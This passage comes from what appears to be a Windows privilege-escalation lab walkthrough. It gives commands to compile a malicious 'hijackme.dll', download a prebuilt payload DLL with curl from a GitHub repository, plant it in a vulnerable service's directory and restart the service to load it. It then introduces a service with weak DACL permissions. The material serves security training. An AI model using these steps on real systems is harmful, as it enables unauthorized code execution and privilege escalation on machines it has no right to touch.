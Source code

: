        ```bash
       i686-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
       ```

3. **Optional: Download the DLL Payload:**

   - If you already have the DLL payload hosted somewhere, you can download it using the following `curl` command:

     ```bash
     curl -o "C:\temp\hijackme.dll" https://raw.githubusercontent.com/Ardemium/InsideJob/refs/heads/main/payloads/hijackme.dll
     ```

     > **Note:** Modify the destination path (`"C:\temp\hijackme.dll"`) to your desired location and file name, if necessary.

4. **Deploy the Malicious DLL:**

   - Copy the compiled `hijackme.dll` to the vulnerable service's directory:

     ```bash
     copy Z:\hijackme.dll "C:\temp"
     ```

5. **Restart the Service:**

   - Restart the service to trigger the malicious DLL:

     ```bash
     sc stop dllsvc
     sc start dllsvc
     ```

---

### DACL Service

![DACL Service Properties](.assets/dacl_service.png)

The `daclsvc` service has improper permissions that allow unauthorized users to modify its configuration due to the **DC** permission (`Change Configuration`) being granted to the **Everyone** group.
